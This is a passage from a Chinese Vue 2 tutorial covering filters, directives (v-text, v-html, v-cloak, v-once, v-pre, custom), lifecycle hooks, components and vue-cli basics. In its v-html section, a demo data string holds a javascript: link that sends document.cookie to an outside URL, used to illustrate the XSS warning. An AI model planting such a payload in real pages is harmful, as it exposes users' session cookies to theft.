						2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
				备注：
						1.过滤器也可以接收额外参数、多个过滤器也可以串联
						2.并没有改变原本的数据, 是产生新的对应的数据
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>显示格式化后的时间</h2>
			<!-- 计算属性实现 -->
			<h3>现在是：{{fmtTime}}</h3>
			<!-- methods实现 -->
			<h3>现在是：{{getFmtTime()}}</h3>
			<!-- 过滤器实现 -->
			<h3>现在是：{{time | timeFormater}}</h3>
			<!-- 过滤器实现（传参） -->
			<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
			<h3 :x="msg | mySlice"></h3>
		</div>

		<div id="root2">
			<h2>{{msg | mySlice}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		//全局过滤器
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})
		
		new Vue({
			el:'#root',
			data:{
				time:1621561377603, //时间戳
				msg:'你好'
			},
			computed: {
				fmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			methods: {
				getFmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			//局部过滤器
			filters:{
				timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
					// console.log('@',value)
					return dayjs(value).format(str)
				}
			}
		})

		new Vue({
			el:'#root2',
			data:{
				msg:'hello,xht!'
			}
		})
	</script>
</html>
```


## 4.9：v-text


### 1.简介


1.作用：向其所在的节点中渲染文本内容。(如果有html标签的话，是不会去渲染html)

2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。


### 2.代码


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>hello {{name}}</h1>
  <h1 v-text="name">hello </h1>
  <h1 v-text="str">hello </h1>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'小糊涂',
      str:'<h3>你好啊！</h3>'
    }
  })
</script>
</html>
```


### 3.案例





## 4.10：v-html


### 1.简介


+ 作用：向指定节点中渲染包含html结构的内容。

+ 与插值语法的区别：
  + v-html会替换掉节点中所有的内容，{{xx}}则不会。
  + v-html可以识别html结构。

+ 严重注意：v-html有安全性问题！！！！
  + 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
  + 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！


### 2.代码


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```


### 3.案例





# 五、VUE基础(三)


## 5.1：v-cloak


### 1.简介


这个指令保持在元素上直到关联实例结束编译。和 CSS 规则如 `[v-cloak] { display: none }` 一起用时，这个指令可以隐藏未编译的 Mustache 标签直到实例准备完毕。

1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
      2.使用css配合v-cloak**可以解决网速慢时页面展示出{{xxx}}的问题。**


### 2.代码


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>v-cloak指令</title>
  <style>
    [v-cloak]{
      display:none;
    }
  </style>
  <!-- 引入Vue -->
</head>
<body>
<!--
        v-cloak指令（没有值）：
                1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
                2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
-->
<!-- 准备好一个容器-->
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script><!--没有这个服务-->
</body>

<script type="text/javascript">
  console.log(1)
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

  new Vue({
    el:'#root',
    data:{
      name:'尚硅谷'
    }
  })
</script>
</html>
```


### 3.测试


打开网页一片空白


## 5.2：v-once


### 1.简介


1.v-once所在节点在初次动态渲染后，就视为静态内容了。

2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

> 只渲染元素和组件**一次**。随后的重新渲染，元素/组件及其所有的子节点将被视为静态内容并跳过。这可以用于优化更新性能。


### 2.代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>v-once指令</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!--
    v-once指令：
                1.v-once所在节点在初次动态渲染后，就视为静态内容了。
                2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
-->
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-once>初始化的n值是:{{n}}</h2>
    <h2>当前的n值是:{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
</html>
```


### 3.测试





### 4.注意


v-once和@click.once是不一样的，一个是事件修饰符，一个是标签


## 5.3：v-pre


### 1.简介


+ 1.跳过其所在节点的编译过程。
+ 2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。


### 2.代码


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-pre指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
			v-pre指令：
					1.跳过其所在节点的编译过程。
					2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-pre>Vue其实很简单</h2>
			<h2 >当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```


### 3.测试




## 5.4：自定义指令


### 1.简介


```java
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
自定义指令总结：
一、定义语法：
(1).局部指令：
new Vue({							new Vue({
directives:{指令名:配置对象}   或   		directives{指令名:回调函数}
}) 									})
(2).全局指令：
Vue.directive(指令名,配置对象) 或   Vue.directive(指令名,回调函数)

二、配置对象中常用的3个回调：
(1).bind：指令与元素成功绑定时调用。
(2).inserted：指令所在元素被插入页面时调用。
(3).update：指令所在模板结构被重新解析时调用。

三、备注：
1.指令定义时不加v-，但使用时要加v-；
2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。
```


### 2.代码


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>自定义指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>{{name}}</h2>
			<h2>当前的n值是：<span v-text="n"></span> </h2>
			<!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
			<h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
			<button @click="n++">点我n+1</button>
			<hr/>
			<input type="text" v-fbind:value="n">
		</div>
	</body>
	
	<script type="text/javascript">
		Vue.config.productionTip = false

		//定义全局指令
		/* Vue.directive('fbind',{
			//指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			//指令所在元素被插入页面时
			inserted(element,binding){
				element.focus()
			},
			//指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
		}) */

		new Vue({
			el:'#root',
			data:{
				name:'小糊涂',
				n:1
			},
			directives:{
				//big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
				/* 'big-number'(element,binding){
					// console.log('big')
					element.innerText = binding.value * 10
				}, */
				big(element,binding){
					console.log('big',this) //注意此处的this是window
					// console.log('big')
					element.innerText = binding.value * 10
				},
				fbind:{
					//指令与元素成功绑定时（一上来）
					bind(element,binding){
						element.value = binding.value
					},
					//指令所在元素被插入页面时
					inserted(element,binding){
						element.focus()
					},
					//指令所在的模板被重新解析时
					update(element,binding){
						element.value = binding.value
					}
				}
			}
		})
		
	</script>
</html>
```


## 5.6：生命周期


### 1.简介


每个`Vue`实例在被创建时都要经过一系列的初始化过程，例如：需要设置数据的监听，编译模板，将实例挂载到`DOM`上，并且在数据变化时更新`DOM`等，这些过程统称为`Vue`实例的`生命周期`。同时在这个过程中也会运行一些叫做**生命周期钩子**的函数，这给了用户在不同阶段添加自己的代码的机会。

其实`Vue`实例的生命周期，主要分为三个阶段，每个阶段都会执行不同的钩子函数，分别为

- 挂载(初始化相关属性,例如`watch`属性，`method`属性)

  1. `beforeCreate`
  2. `created`
  3. `beforeMount`
  4. `mounted`

- 更新(元素或组件的变更操作)

  1. `beforeUpdate`
  2. `updated`

- 销毁（销毁相关属性）

- 1. `beforeDestroy`
  2. `destroyed`


### 2.图视


### 3.钩子函数简介


所有生命周期钩子的 `this` 上下文将自动绑定至实例中，因此你可以访问 data、computed 和 methods。这意味着**你不应该使用箭头函数来定义一个生命周期方法** (例如 `created: () => this.fetchTodos()`)。因为箭头函数绑定了父级上下文，所以 `this` 不会指向预期的组件实例，并且`this.fetchTodos` 将会是 undefined。


### 4.beforeCreate


- **类型**：`Function`

- **详细**：

  在实例初始化之后,进行数据侦听和事件/侦听器的配置之前同步调用。

- **参考**：[生命周期图示](#2.图视)


### 5.created


- **类型**：`Function`

- **详细**：

  在实例创建完成后被立即同步调用。在这一步中，实例已完成对选项的处理，意味着以下内容已被配置完毕：数据侦听、计算属性、方法、事件/侦听器的回调函数。然而，挂载阶段还没开始，且 `$el` property 目前尚不可用。

- **参考**：[生命周期图示](#2.图视)


### 6.beforeMount


- **类型**：`Function`

- **详细**：

  在挂载开始之前被调用：相关的 `render` 函数首次被调用。

  **该钩子在服务器端渲染期间不被调用。**

- **参考**：[生命周期图示](#2.图视)


### 7.mounted


- **类型**：`Function`

- **详细**：

  实例被挂载后调用，这时 `el` 被新创建的 `vm.$el` 替换了。如果根实例挂载到了一个文档内的元素上，当 `mounted` 被调用时 `vm.$el` 也在文档内。

  注意 `mounted` **不会**保证所有的子组件也都被挂载完成。如果你希望等到整个视图都渲染完毕再执行某些操作，可以在 `mounted` 内部使用 [vm.$nextTick](https://cn.vuejs.org/v2/api/#vm-nextTick)：

  ```java
  mounted: function () {
    this.$nextTick(function () {
      // 仅在整个视图都被渲染之后才会运行的代码
    })
  }
  ```

  **该钩子在服务器端渲染期间不被调用。**

- **参考**：[生命周期图示](#2.图视)


### 8.beforeUpdate


- **类型**：`Function`

- **详细**：

  在数据发生改变后，DOM 被更新之前被调用。这里适合在现有 DOM 将要被更新之前访问它，比如移除手动添加的事件监听器。

  **该钩子在服务器端渲染期间不被调用，因为只有初次渲染会在服务器端进行。**

- **参考**：[生命周期图示](#2.图视)


### 9.updated


- **类型**：`Function`

- **详细**：

  在数据更改导致的虚拟 DOM 重新渲染和更新完毕之后被调用。

  当这个钩子被调用时，组件 DOM 已经更新，所以你现在可以执行依赖于 DOM 的操作。然而在大多数情况下，你应该避免在此期间更改状态。如果要相应状态改变，通常最好使用[计算属性](https://cn.vuejs.org/v2/api/#computed)或 [watcher](https://cn.vuejs.org/v2/api/#watch) 取而代之。

  注意，`updated` **不会**保证所有的子组件也都被重新渲染完毕。如果你希望等到整个视图都渲染完毕，可以在 `updated` 里使用 [vm.$nextTick](https://cn.vuejs.org/v2/api/#vm-nextTick)：

  ```js
  updated: function () {
    this.$nextTick(function () {
      //  仅在整个视图都被重新渲染之后才会运行的代码     
    })
  }
  ```

  **该钩子在服务器端渲染期间不被调用。**

- **参考**：[生命周期图示](#2.图视)


### 10.activated


- **类型**：`Function`

- **详细**：

  被 keep-alive 缓存的组件激活时调用。

  **该钩子在服务器端渲染期间不被调用。**

- **参考**：

  - [构建组件 - keep-alive](https://cn.vuejs.org/v2/api/#keep-alive)
  - [动态组件 - keep-alive](https://cn.vuejs.org/v2/guide/components-dynamic-async.html#在动态组件上使用-keep-alive)


### 11.deactivated


- **类型**：`Function`

- **详细**：

  被 keep-alive 缓存的组件失活时调用。

  **该钩子在服务器端渲染期间不被调用。**

- **参考**：

  - [构建组件 - keep-alive](https://cn.vuejs.org/v2/api/#keep-alive)
  - [动态组件 - keep-alive](https://cn.vuejs.org/v2/guide/components-dynamic-async.html#在动态组件上使用-keep-alive)


### 12.beforeDestroy


- **类型**：`Function`

- **详细**：

  实例销毁之前调用。在这一步，实例仍然完全可用。

  **该钩子在服务器端渲染期间不被调用。**

- **参考:**[生命周期图示](#2.图视)


### 13.destroyed


- **类型**：`Function`

- **详细**：

  实例销毁后调用。该钩子被调用后，对应 Vue 实例的所有指令都被解绑，所有的事件监听器被移除，所有的子实例也都被销毁。

  **该钩子在服务器端渲染期间不被调用。**

- **参考**：[生命周期图示](#2.图视)


### 14.errorCaptured


> 2.5.0+ 新增

- **类型**：`(err: Error, vm: Component, info: string) => ?boolean`

- **详细**：

  在捕获一个来自后代组件的错误时被调用。此钩子会收到三个参数：错误对象、发生错误的组件实例以及一个包含错误来源信息的字符串。此钩子可以返回 `false` 以阻止该错误继续向上传播。

  你可以在此钩子中修改组件的状态。因此在捕获错误时，在模板或渲染函数中有一个条件判断来绕过其它内容就很重要；不然该组件可能会进入一个无限的渲染循环。

  **错误传播规则**

  - 默认情况下，如果全局的 `config.errorHandler` 被定义，所有的错误仍会发送它，因此这些错误仍然会向单一的分析服务的地方进行汇报。
  - 如果一个组件的 inheritance chain (继承链)或 parent chain (父链)中存在多个 `errorCaptured` 钩子，则它们将会被相同的错误逐个唤起。
  - 如果此 `errorCaptured` 钩子自身抛出了一个错误，则这个新错误和原本被捕获的错误都会发送给全局的 `config.errorHandler`。
  - 一个 `errorCaptured` 钩子能够返回 `false` 以阻止错误继续向上传播。本质上是说“这个错误已经被搞定了且应该被忽略”。它会阻止其它任何会被这个错误唤起的 `errorCaptured` 钩子和全局的 `config.errorHandler`。


# 六、组件化编程


## 6.1：组件化是什么


vue.js组件化用于将UI页面分割为若干组件进行组合和嵌套；组件化是一种高效的处理复杂应用系统，更好的明确功能模块作用的方式；目的是为了解耦，把复杂系统拆分成多个组件，分离组件边界和责任，便于独立升级和维护。

我们[可以从vue官方视频简介中看到：](https://player.youku.com/embed/XMzMwMTYyODMyNA==?autoplay=true&client_id=37ae6144009e277d)

1. 理解: 向外提供特定功能的 js 程序, 一般就是一个 js 文件 

2. 为什么: js 文件很多很复杂 

3. 作用: 复用 js, 简化 js 的编写, 提高 js 运行效率


> **<font color='red'>注意</font>**
>
> 1.el不要写，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
>
> 2.data必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。


## 6.2：文件组件类别


### 1.非单文件组件


文件中有多个组件


### 2.单文件组件


文件中有一个组件


详情看下：


## 6.3：学习前准备的模板


这个模块我们将拆成组件，共拆分三块：


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>hello {{name}}</h1>
  <h2>学校详细</h2>
  <h3>学校名称:{{school.name}}</h3>
  <h3>学校地址:{{school.address}}</h3>
  <h2>学生明细</h2>
  <h3 v-for="item in students" :key="item.name">{{item.name}},{{item.age}},{{item.class}}</h3>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'小糊涂',
      school: {
        name:'小糊涂大学',
        address: '天府之国',
      },
      students: [
        { name:'admin',age:18,class: '一年级'},
        { name:'张三',age:18,class: '三年级'},
        { name:'李四',age:18,class: '三年级'},
        { name:'王五',age:18,class: '三年级'},
      ]
    }
  })
</script>
</html>
```


## 6.4：helloworld


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <hello></hello>
</div>
</body>

<script type="text/javascript">
    /*定义一个组件*/
    Vue.component('hello', {
        data: function () {
            return {
                name: '小糊涂'
            }
        },
        template: '<h1>hello {{name}}</h1>'
    })
    /*实例化vue*/
    new Vue({
        el: '#root'
    });

</script>
</html>
```


## 6.5：helloword的另一种写法


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <hello></hello>
    <school></school>
</div>
</body>

<script type="text/javascript">
    //定义school组件
    const school = Vue.extend({
        name:'school',
        template:`
				<div>
					<h2>学校名称：{{name}}</h2>
					<h2>学校地址：{{address}}</h2>
					<button @click="showName">点我提示学校名</button>
				</div>
			`,
        data(){
            return {
                name:'尚硅谷',
                address:'北京'
            }
        },
        methods: {
            showName(){
                console.log('showName',this)
            }
        },
    });

    /*定义一个组件*/
    Vue.component('hello', {
        data: function () {
            return {
                name: '小糊涂'
            }
        },
        template: '<h1>hello {{name}}</h1>'
    })
    /*实例化vue*/
    new Vue({
        el: '#root',
        components:{school}
    });

</script>
</html>
```


## 6.6：两种helloworld对比


第一种我们定义的是不需要引用既可以使用（全局注册）

第二种我们定义的需要引用既可以使用（局部注册）

我们推荐使用第二种：**（注意了我们使用下面这种时一定要注意模块代码必须有一个父级元素，负责会出错。）**

```java
   //定义school组件
    const school = Vue.extend({
        name:'school',
        template:`
				<div>
					<h2>学校名称：{{name}}</h2>
					<h2>学校地址：{{address}}</h2>
					<button @click="showName">点我提示学校名</button>
				</div>
			`,
        data(){
            return {
                name:'尚硅谷',
                address:'北京'
            }
        },
        methods: {
            showName(){
                console.log('showName',this)
            }
        },
    });
```


## 6.7：非单文件组件


[模板](#6.3：学习前准备的模板)在上面，我们那模板来拆分


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <hello></hello>
    <school></school>
    <student></student>
</div>
</body>

<script type="text/javascript">
    const a = Vue.extend({
        name: 'x',
        data() {
            return {
                name:'小糊涂',
            }
        },
        template: `<h1>hello {{name}}</h1>`
    });
    const b = Vue.extend({
        name: 'y',
        data() {
            return {
                school: {
                    name: '小糊涂大学',
                    address: '天府之国',
                }
            }
        },
        template: `<div><h2>学校详细</h2>
        <h3>学校名称:{{school.name}}</h3>
        <h3>学校地址:{{school.address}}</h3></div>  `
    });
    const c = Vue.extend({
        name: 'z',
        data() {
            return {
                students: [
                    { name:'admin',age:18,class: '一年级'},
                    { name:'张三',age:18,class: '三年级'},
                    { name:'李四',age:18,class: '三年级'},
                    { name:'王五',age:18,class: '三年级'},
                ]
            }
        },
        template: ` <div> <h2>学生明细</h2>
        <h3 v-for="item in students" :key="item.name">{{item.name}},{{item.age}},{{item.class}}</h3></div>  `
    })
    /*实例化vue*/
    new Vue({
        el: '#root',
        components: {
            hello:a,
            school: b,
            student: c

        }
    });

</script>
</html>
```


## 6.8：非单文件组件总结


不要说我上面变量名字的拉跨，观察下面的关系，更好的理解





## 6.9：组件嵌套


[这里的代码我们是根据](#6.7：单文件组件)修改的

我们想要的效果如下：




```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <app></app>
</div>
</body>

<script type="text/javascript">
    const a = Vue.extend({
        name: 'hellos',
        data() {
            return {
                name: '小糊涂',
            }
        },
        template: `<h1>hello {{ name }}</h1>`
    });
    const c = Vue.extend({
        name: 'students',
        data() {
            return {
                students: [
                    {name: 'admin', age: 18, class: '一年级'},
                    {name: '张三', age: 18, class: '三年级'},
                    {name: '李四', age: 18, class: '三年级'},
                    {name: '王五', age: 18, class: '三年级'},
                ]
            }
        },
        template: `
          <div><h2>学生明细</h2>
          <h3 v-for="item in students" :key="item.name">{{ item.name }},{{ item.age }},{{ item.class }}</h3></div>  `
    });
    const b = Vue.extend({
        name: 'schools',
        data() {
            return {
                school: {
                    name: '小糊涂大学',
                    address: '天府之国',
                }
            }
        },
        template: `
          <div><h2>学校详细</h2>
          <h3>学校名称:{{ school.name }}</h3>
          <h3>学校地址:{{ school.address }}</h3>
          <student></student>
          </div>
        `,
        components: {
            student: c
        }
    });
    const app = Vue.extend({
        components: {
            hello: a,
            school: b
        },
        template:
                `
                  <div>
                  <hello></hello>
                  <school></school>
                  </div>`
    });

    /*实例化vue*/
    new Vue({
        el: '#root',
        components: {app:app}
    });

</script>
</html>
```


## 6.10：关于VueComponent


```java
关于VueComponent：
		1.school组件本质是一个名为VueComponent的构造函数，且不是程序员定义的，是Vue.extend生成的。
 		2.我们只需要写<school/>或<school></school>，Vue解析时会帮我们创建school组件的实例对象，即Vue帮我们执行的：new VueComponent(options)。
		3.特别注意：每次调用Vue.extend，返回的都是一个全新的VueComponent！！！！
		4.关于this指向：
			(1).组件配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
			(2).new Vue(options)配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

		5.VueComponent的实例对象，以后简称vc（也可称之为：组件实例对象）。
		6.Vue的实例对象，以后简称vm。
```


## 6.11：单文件组件


### 1.创建App.vue


```java
<template>
	<div>
		<School></School>
		<Student></Student>
	</div>
</template>

<script>
	//引入组件
	import School from './School.vue'
	import Student from './Student.vue'

	export default {
		name:'App',
		components:{
			School,
			Student
		}
	}
</script>

```


### 2.创建index.html


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>练习一下单文件组件的语法</title>
	</head>
	<body>
		<!-- 准备一个容器 -->
		<div id="root"></div>
		 <script type="text/javascript" src="../js/vue.js"></script>
		 <script type="text/javascript" src="./main.js"></script>
	</body>
</html>

```


### 3.创建main.js


```java
import App from './App.vue'

new Vue({
	el:'#root',
	template:`<App></App>`,
	components:{App},
})
```


### 4.创建School.vue


```java
<template>
  <div><h2>学校详细</h2>
    <h3>学校名称:{{ school.name }}</h3>
    <h3>学校地址:{{ school.address }}</h3>
    <student></student>
  </div>
</template>

<script>
	 export default {
		name:'School',
		data(){
			return {
        school: {
          name: '小糊涂大学',
          address: '天府之国',
        }
			}
		}
	}
</script>

<style>
	.demo{
		background-color: orange;
	}
</style>
```


### 5.创建Student.vue


```java
<template>
  <template>
    <h2>学生明细</h2>
    <h3 v-for="item in students" :key="item.name">{{ item.name }},{{ item.age }},{{ item.class }}</h3>
  </template>
</template>

<script>
export default {
  name: "Students",
  data() {
    return {
      students: [
        {name: 'admin', age: 18, class: '一年级'},
        {name: '张三', age: 18, class: '三年级'},
        {name: '李四', age: 18, class: '三年级'},
        {name: '王五', age: 18, class: '三年级'},
      ]
    }
  }
}
</script>

<style scoped>

</style>
```


### 6.测试


现在是无法执行的，必须配合脚手架


# 七、VUE脚手架（一）


## 7.1：简介


### 1.简介


你可以使用 `vue serve` 和 `vue build` 命令对单个 `*.vue` 文件进行快速原型开发，不过这需要先额外安装一个全局的扩展：

```java
npm install -g @vue/cli-service-global
```

`vue serve` 的缺点就是它需要安装全局依赖，这使得它在不同机器上的一致性不能得到保证。因此这只适用于快速原型开发。


### 2.创建一个项目


```java
vue create vue-test
```


然后选择自己需要的配置即可：




进入项目中运行：

```java
npm run serve
```





### 3.vue-cli目录分析


```java
├── node_modules 
├── public
│   ├── favicon.ico: 页签图标
│   └── index.html: 主页面
├── src
│   ├── assets: 存放静态资源
│   │   └── logo.png
│   │── component: 存放组件
│   │   └── HelloWorld.vue
│   │── App.vue: 汇总所有组件
│   │── main.js: 入口文件
├── .gitignore: git版本管制忽略的配置
├── babel.config.js: babel的配置文件
├── package.json: 应用包配置文件 
├── README.md: 应用描述文件
├── package-lock.json：包版本控制文件
```


## 7.2：修改默认配置项


### 1.显示webpack配置文件


Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpakc 配置， 

请执行：

```java
vue inspect > output.js
```


### 2.vue.config.js


`vue.config.js` 是一个可选的配置文件，如果项目的 (和 `package.json` 同级的) 根目录中存在这个文件，那么它会被 `@vue/cli-service` 自动加载。你也可以使用 `package.json` 中的 `vue` 字段，但是注意这种写法需要你严格遵照 JSON 的格式来写。

这个文件应该导出一个包含了选项的对象：

```java
// vue.config.js

/**
 * @type {import('@vue/cli-service').ProjectOptions}
 */
module.exports = {
  // 选项...
}
```


### 3.修改入口函数


我们知道vue脚手架的入口函数是`main.js`，我们现在想修改可以在`vue.conf.js`中这样写

```java
// vue.config.js
module.exports = {
    /*入口js*/
    pages: {
        index: {
            //入口
            entry: 'src/myMain.js',
        },
    },
}
```


### 4.总结


1. 使用vue inspect > output.js可以查看到Vue脚手架的默认配置。
2. 使用vue.config.js可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh/config/

现用现查




## 7.3：组件之间的通信


| 方式                                    | 描述                                                         | 备注                                                         |
| --------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| [ref](#7.4：ref属性(id替代者))          | 我们可以叫他为id的替换者，如果绑定的是html的话，那么可以进行DOM操作，如果绑定的是组件的话是可以修改数据 | 父组件更改子组件的内容**(只限ref绑定在组件上)**，如果绑定的html，那么就是操作dom元素了 |
| [props](#7.5：props配置项)              | 用于接收父组件传过来的值，并且可以对值的类型做限制           | 不可以修改父组件的值，如若修改数据请复制数据到`data`里面，**但是不会影响父组件的数据** |
|                                         | 用于接收父组件的方法                                         | 子组件可以调用父组件的方法，然后父组件去修改自身的数据，**以达到子组件修改父组件的数据** |
| [mixin](#7.6：mixin混入)                | 可以把多个组件共用的配置提取成一个混入对象                   | 可以修改数据，但是只影响当前使用的组件里面的数据，因为混入会进行数据合并，把公共的数据变成组件自己的数据 |
| [插件](#7.7：插件)                      | 用于增强Vue                                                  | 一个库，提供自己的 API，同时提供上面提到的一个或多个功能，例如我们将要学习的插件(elementui) |
| [scoped](#7.8：scoped(CSS样式))         | 用于css的隔离防止css的定义全局                               | 让样式在局部生效，防止冲突。                                 |
| [自定义事件](#7.10：组件间的自定义事件) | [绑定自定义事件`$on`](#3.绑定自定义事件)<br>[触发自定义事件`$emit`](#4.触发自定义事件)<br>[解绑自定义事件`$off`](#5.解绑自定义事件)<br>[销毁自定义事件](#6.销毁自定义事件)这里的销毁是生命周期里面的 | 只能用于组件上，类似props，将方法传递给子组件，然后子组件把数据给父组件，不同于props的是，不能将数据传递 |


## 7.4：ref属性(id替代者)


> 都已经组件化编码了，你就不要再使用`document.getElementById('')`来获取dom元素了，来使用`ref吧`


### 1.简介


1. 被用来给元素或子组件注册引用信息（id的替代者）
2. 应用在html标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象（vc）
3. 使用方式：
   1. 打标识：```<h1 ref="xxx">.....</h1>``` 或 ```<School ref="xxx"></School>```
   2. 获取：```this.$refs.xxx```


### 2.案例

> (App.vue)

```java
<template>
  <div>
    <h1 v-text="msg" ref="hello"></h1>
    <button @click="show" ref="btn">点击我一下，然后看控制台打印</button>
    <schools ref="school"></schools>
  </div>
</template>
<script>
import schools from "./components/Schools";
export default {
  name: "App",
  components: {schools},
  data() {
    return {
      msg: '小糊涂',
    }
  }, methods: {
    show() {
      let  refs = this.$refs;
      console.log(refs)
      console.log(refs.hello) //真实DOM元素
      console.log(refs.btn) //真实DOM元素
      console.log(refs.school) //School组件的实例对象（vc）
      console.log('this.msg:'+this.msg)
      console.log('refs.hello.innerText:'+refs.hello.innerText)
      console.log('也可以去修改dom的内容但是吧没办法修改vue中的数据')
      refs.hello.innerText = '12312'
      console.log('this.msg:'+this.msg)
      console.log('refs.hello.innerText:'+refs.hello.innerText)
      console.log('获取修改vue组件中的数据')
      refs.school.$data.school=[]
    }
  },
}
</script>
<style scoped></style>
```


### 3.测试





### 4.Schools.vue代码


```java
<template>
  <div class="school">
    <h2>学校名称：{{ school.name }}</h2>
    <h2>学校地址：{{ school.address }}</h2>
  </div>
</template>

<script>
export default {
  name: "Schools",
  data() {
    return {
      school: {
        name: '小糊涂大学',
        address: '天府之国',
      }
    }
  }

}
</script>

<style scoped>
.school {
  background-color: skyblue;
}
</style>
```


## 7.5：props配置项


### 1.简介


1. 功能：让组件接收外部传过来的数据

2. 传递数据：```<Demo name="xxx"/>```

3. 接收数据：

   1. 第一种方式（只接收）：```props:['name'] ```

   2. 第二种方式（限制类型）：```props:{name:String}```

   3. 第三种方式（限制类型、限制必要性、指定默认值）：

      ```js
      props:{
      	name:{
      	type:String, //类型
      	required:true, //必要性
      	default:'老王' //默认值
      	}
      }
      ```

> 备注：props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据。


### 2.案例


#### App.vue


```java
<template>
  <div>
    <student :students="students"></student>
  </div>
</template>

<script>
import student from "./components/student";

export default {
  name: "App",
  components: { student},
  data() {
    return {
      msg: '小糊涂',
      students: [
        {name: 'admin', age: 18, class: '一年级'},
